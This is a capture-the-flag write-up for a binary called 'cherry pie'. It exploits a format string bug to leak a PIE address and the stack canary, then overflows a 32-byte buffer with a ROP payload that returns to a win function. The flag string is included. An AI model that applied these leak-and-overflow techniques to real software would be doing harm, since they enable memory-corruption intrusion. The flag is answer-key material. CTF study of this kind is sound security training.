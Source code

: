 ## Overview
![[cherry_pie_main.png]]

We have PIE and a canary to bypass

### Vulnerabilities
- Buffer overflow on the string 's' since it's only 32 bytes long but the fgets reads 128 bytes.
- Format string vulnerability at row 14

## Phase 1 - Leak the offset, find the canary
We can bypass PIE by exploiting the format string vulnerability to leak an address, find the offset and then the base address.

The input to leak an address is : `Take this, my grandma made that %39$p %40$p %41$p %42$p %43$p %44$p`

We recognize the leaked address that we need because **it usually starts with the number '5'**, in my case i got `0x564f2f600820`.
Using gdb we can find the base and, therefore, leak the offset, that is `0x820`.

Using the same procedure vulnerability (and the same input) **we leak the canary**. In my case i found the canary at `%15$p` and the address at `%39$p`. 
The offset may be different running the binary in local and remote, in my case they was.

## Phase 2 - Attack
We know the location of the address to leak, we know the location of the canary and the offset, so let's begin.
### Set the base address
We first, again, leak the address and the canary, then we use the address to compute the base address: 
				`base_addr = leaked_addr - leaked_offset
				`exe.address = base_addr`
Now that we have set the base address to our elf, we can access freely its symbols :D
### Build the payload
We now that the 's' string (our buffer) is at `$rbp-0x50`, and the canary is as usual at `$rbp-0x8`.

We set our offset variable to `0x50-0x8`, since we have to stop just before the canary.
So the payload is going to be:
- `b'A' * offset`
- the canary
- `b'A' * 8  // this is just for aligning the stack`
- `rop.ret.address // remeber to set rop = ROP(exe) AFTER setting the base address`
- `exe.sym['win']

After we send this payload to the second `fgets` we get the flag :D
`srdnlen{W3_l0v3_Ch3rry_p1e$}`

[Code](./solve.py)

## Note
I found the canary and the address to leak by using this code:

`for i in range(1, 150):`
           ` r = remote(remote_address, port)`
            `payload = 'Take this, my grandma made that '`
            `payload += "%"+str(i)+'$p'`